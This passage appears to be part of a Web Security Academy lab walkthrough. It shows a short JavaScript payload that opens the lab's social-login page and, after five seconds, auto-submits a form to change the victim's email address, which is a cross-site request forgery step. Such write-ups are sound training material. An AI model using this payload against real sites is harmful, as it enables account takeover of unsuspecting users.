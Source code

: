 Adding this script
```
  <script>

    window.open('https://0aa500170334a60b805703f4000e00a8.web-security-academy.net/social-login');

    setTimeout(changeEmail, 5000);

    function changeEmail(){

        document.forms[0].submit();

    }

</script>
```

The JavaScript function opens a new browser window with a specified URL, waits for 5 seconds, and then automatically submits the first form found on that webpage.

<img src="images/image49.png" alt="third" width="800">

Change email address

<img src="images/image50.png" alt="third" width="800">